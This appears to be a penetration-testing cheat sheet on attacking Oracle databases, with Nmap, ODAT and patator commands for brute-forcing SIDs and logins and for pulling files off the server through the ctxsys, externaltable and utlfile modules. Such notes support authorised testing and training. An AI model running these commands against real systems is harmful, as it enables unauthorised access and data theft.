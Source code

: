 ######
Oracle
######

* https://github.com/quentinhardy/odat/wiki/all

Firstly, follow this guide to get Oracle tools working in Kali: https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux

Bruteforce SIDs
===============

With Nmap:

.. code-block:: none

    nmap -vv -Pn -p <port> -sV --script oracle-sid-brute <target-ip>

With `ODAT <https://github.com/quentinhardy/odat>`__:

.. code-block:: none

    python odat.py sidguesser -s <target-ip> -p <port>

Bruteforce Logins
=================

With `ODAT <https://github.com/quentinhardy/odat>`__:

.. code-block:: none

    python odat.py passwordguesser -s <target-ip> -p <port> -d <sid> --accounts-file accounts/accounts_multiple.txt

With patator:

.. code-block:: none

    patator oracle_login host=<target-ip> port=<port> sid=<sid> user=COMBO00 password=COMBO01 0=/usr/share/seclists/Passwords/Default-Credentials/oracle-betterdefaultpasslist.txt -x ignore:code=ORA-01017 -x ignore:code=ORA-28000

Download Files
==============

With `ODAT <https://github.com/quentinhardy/odat>`__ there are several ways to download a file. Note that "--sysdba" may be optional depending on permissions.

ctxsys
------

.. code-block:: none

    python odat.py ctxsys -s <target-ip> -p <port> -d <sid> -U <userame> -P <password> --sysdba --getFile "/full/path/to/file"

externaltable
-------------

.. code-block:: none

    python odat.py externaltable -s <target-ip> -p <port> -d <sid> -U <userame> -P <password> --sysdba --getFile "/path/to" "file.txt" "local-file.txt"

utlfile
-------

.. code-block:: none

    python odat.py utlfile -s <target-ip> -p <port> -d <sid> -U <userame> -P <password> --sysdba --getFile "/path/to" "file.txt" "local-file.txt"
